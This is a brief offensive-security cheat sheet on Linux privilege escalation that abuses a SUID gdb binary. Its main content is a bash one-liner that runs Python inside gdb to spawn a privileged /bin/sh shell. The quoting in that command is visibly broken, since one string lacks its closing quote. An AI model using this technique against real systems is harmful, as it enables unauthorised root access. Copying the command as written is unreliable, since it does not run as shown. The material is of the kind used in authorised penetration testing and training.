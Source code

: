 # Linux Privilege Escalation

## SUID Binaries

### gdb

If the binary gdb is SUID, you can do a Privilege Escalation with the nect command:

{% hint style="info" %}
With this command you need to have installed python in the machine.
{% endhint %}

```bash
./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh, "-p")' -ex quit
```
